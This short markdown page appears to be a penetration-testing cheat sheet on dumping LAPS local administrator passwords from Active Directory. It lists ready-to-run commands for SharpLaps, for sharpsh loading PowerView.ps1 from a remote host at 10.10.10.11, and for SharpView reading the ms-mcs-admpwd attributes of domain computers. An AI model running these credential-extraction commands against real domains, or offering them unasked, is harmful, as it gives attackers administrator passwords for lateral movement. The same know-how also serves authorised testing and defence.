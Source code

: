 # LAPS

### 1) SharpLaps with C# support - Without target specified, we get creds for all machines fetched from DC

    sharplaps /host:DC06
    sharplaps /host:DC06 /target:machine04
    sharplaps /host:DC06 /target:client


### 2) If you have rights to read passwords, you can use powerview's get-computer for getting the secrets as well

    sharpsh -t 20 -- '-u http://10.10.10.11/powershell-scripts/PowerView.ps1 -c "Get-DomainComputer machine04.domain.com"'
    sharpsh -t 20 -- '-u http://10.10.10.11/powershell-scripts/PowerView.ps1 -c "Get-DomainComputer machine02.domain.com"'

### 3) SharpView can be used as well

    sharpview -- 'Get-DomainComputer -Identity machine03.domain.com -Properties ms-mcs-admpwd,ms-mcs-admpwdexpirationtime'
    sharpview -- 'Get-DomainComputer -Properties ms-mcs-admpwd,ms-mcs-admpwdexpirationtime'
